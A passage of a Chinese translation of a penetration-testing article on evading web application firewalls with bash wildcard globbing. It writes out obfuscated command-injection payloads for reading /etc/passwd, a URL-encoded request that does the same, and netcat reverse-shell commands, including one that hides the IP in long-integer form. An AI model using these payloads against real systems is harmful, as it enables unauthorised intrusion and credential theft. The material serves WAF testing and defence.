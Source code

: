 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/2699#toc-9)

[原文链接](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8)

前言
--

我可以用

```
/???/??t /???/??ss??
```

读取你的 passwd 文件。享受`Sucuri WAF`，`ModSecurity`，`Paranoia`等等 waf 带来的的乐趣......

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180904204218-f5e0f054-b03f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180904204218-f5e0f054-b03f-1.png)

ps：mac 上好像不太行，按道理应该也可以啊。

在 Web 应用程序中发现远程命令执行漏洞并不是很少见，并且`OWASP Top 10-2017`将`sql inject`置于第一个位置：

当不受信任的数据作为命令或查询的一部分发送到解释器时，就会发生注入，例如`SQL`，`NoSQL`，`OS`和`LDAP`注入。攻击者的恶意数据可以欺骗解释器在没有适当授权的情况下执行非预期的命令或访问数据。

所有现代 Web 应用程序防火墙都能够拦截（甚至阻止）RCE 尝试，但是当它发生在 Linux 系统中时，我们有很多方法可以逃避 WAF 规则集。渗透测试人员最好的朋友不是狗...... 它的名字是`通配符`。在开始做 WAPT 之前，我想告诉你一些你可能不了解 bash 和通配符的事情。

关于通配符你不知道的事
-----------

各种命令行实用程序使用 Bash 标准通配符（也称为通配模式）来处理多个文件。有关标准通配符的更多信息，请通过键入参考手册页`man 7 glob`。不是每个人都知道有很多 bash 语法使你能够使用问号`？`，正斜杠`/`，`数字和字母`来执行系统命令。您甚至可以使用相同数量的字符枚举文件并获取其内容。怎么样？我举几个例子：  
执行 ls 命令，您可以使用以下语法：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f5fe3786-b03f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f5fe3786-b03f-1.png)

使用这种语法，您可以执行基本上所需的一切。比方说，你的脆弱的目标是一个 Web 应用防火墙的后面，这 WAF 有一个规则，包含块的所有请求`/etc/passwd`或`/bin/ls` GET 参数的值内或身体内部的 POST 请求。如果你试图提出一个请求，`/?cmd=cat+/etc/passwd`它会被目标 WAF 阻止，你的 IP 将被永久禁止并被标记为`另一个f *** in'redteamer'`。但是你的口袋里有一个叫做通配符的秘密武器。如果你很幸运（不太幸运，我们后面会说到），目标 WAF 没有足够的严格，来阻止像`?`和`/`在查询字符串中。因此，您可以轻松地发出您的请求（网址编码），如下所示：`/?cmd=%2f???%2f??t%20%2f???%2fp??s??`

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f62ad99e-b03f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f62ad99e-b03f-1.png)

正如您在上面的屏幕截图中看到的那样，有 3 个错误`/bin/cat *：是一个目录`。发生这种情况是因为`/???/??t`可以通过整合过程`转换`到`/bin/cat`或者`/dev/net`,`/etc/apt` 等等....

问号通配符仅代表一个可以是任何字符的字符。因此，如果您知道文件名的一部分而不是一个字母，那么您可以使用此通配符。例如`ls *.???`，列出当前目录中扩展名为 3 个字符的所有文件。因此，将列出具有`.gif，.jpg，.txt`等扩展名的文件。

使用此通配符，您可以使用 netcat 执行反向 shell。假设您需要在端口 1337（通常`nc -e /bin/bash 127.0.0.1 1337`）执行反向 shell 到 127.0.0.1 ，您可以使用以下语法执行此操作：  
`/???/n? -e /???/b??h 2130706433 1337`

以`long`格式（2130706433）转换 IP 地址`127.0.0.1`，可以避免在 HTTP 请求中使用`.`字符。

在我的 kali 中我需要使用`nc.traditional`而不是 nc 没有 - e 参数，以便 / bin/bash 在连接后执行。payload 变成这样：
